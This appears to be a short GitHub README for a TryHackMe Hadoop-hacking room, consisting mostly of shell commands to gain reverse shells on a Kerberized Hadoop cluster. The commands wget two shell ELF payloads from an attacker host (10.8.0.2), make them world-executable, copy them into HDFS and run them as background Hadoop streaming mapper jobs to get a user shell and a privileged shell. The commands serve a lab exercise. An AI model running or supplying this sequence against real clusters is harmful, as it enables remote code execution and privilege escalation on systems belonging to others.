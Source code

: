# THM-hackinghadoop

only some small commands for faster assignments of variables in the rev shell ... and some commands for creating the rev shell

!!! This is no solution to the task !!!


KINIT=/usr/bin/kinit
KLIST=/usr/bin/klist
HADOOP=/usr/local/hadoop-2.7.7/bin/hadoop
HADOOP_STREAMING=/usr/local/hadoop-2.7.7/share/hadoop/tools/lib/hadoop-streaming-2.7.7.jar
KEYTABS=/etc/security/keytabs

cd /tmp
wget http://10.8.0.2/shell.elf
wget http://10.8.0.2/shell-priv.elf
chmod 777 /tmp/shell.elf
chmod 777 /tmp/shell-priv.elf

$HADOOP fs -touchz /tmp/1
$HADOOP fs -touchz /tmp/2

$HADOOP fs -copyfromlocal /tmp/shell.elf /tmp/shell.elf
$HADOOP fs -copyfromlocal /tmp/shell-priv.elf /tmp/shell-priv.elf

$HADOOP fs -chmod 777 /tmp/shell.elf
$HADOOP fs -chmod 777 /tmp/shell-priv.elf

$HADOOP jar $HADOOP_STREAMING -input /tmp/1 -output /tmp/a -mapper /tmp/shell.elf -reducer NONE -file /tmp/shell.elf -background
$HADOOP jar $HADOOP_STREAMING -input /tmp/2 -output /tmp/b -mapper /tmp/shell-priv.elf -reducer NONE -file /tmp/shell-priv.elf -background
